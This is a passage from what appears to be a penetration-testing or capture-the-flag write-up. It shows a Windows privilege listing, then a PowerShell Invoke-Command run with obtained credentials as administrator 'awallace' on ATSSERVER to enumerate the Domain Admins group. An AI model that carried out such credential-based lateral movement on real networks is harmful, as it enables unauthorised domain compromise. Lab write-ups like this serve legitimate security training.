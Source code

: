 ```
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled

USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

I was now able to run commands as `awallace` who was an administrator on `ATSSERVER`.  

```
PS C:\utils> 

Invoke-Command -computername ATSSERVER -ConfigurationName dc_manage -ScriptBlock{net group "Domain Admins"} -credential $cred

Group name     Domain Admins

Comment        Designated administrators of the domain

Members
-------------------------------------------------------------------------------

Administrator            

The command completed successfully.
```
